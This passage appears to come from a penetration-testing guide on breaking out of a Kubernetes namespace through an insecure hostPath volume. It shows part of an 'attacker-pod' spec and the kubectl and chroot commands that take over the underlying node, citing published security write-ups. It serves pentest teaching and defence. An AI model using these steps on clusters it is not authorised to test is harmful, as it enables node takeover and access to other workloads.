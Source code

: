 ```yaml
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

After that you create the pod

```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```

Now you can switch to the created pod as follows

```bash
kubectl exec -it attacker-pod [-n <namespace>] -- bash # attacker-pod is the name defined in the yaml file
```

And finally you chroot into the node's system

```bash
chroot /root /bin/bash
```

Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

## References

{% embed url="https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-3" %}
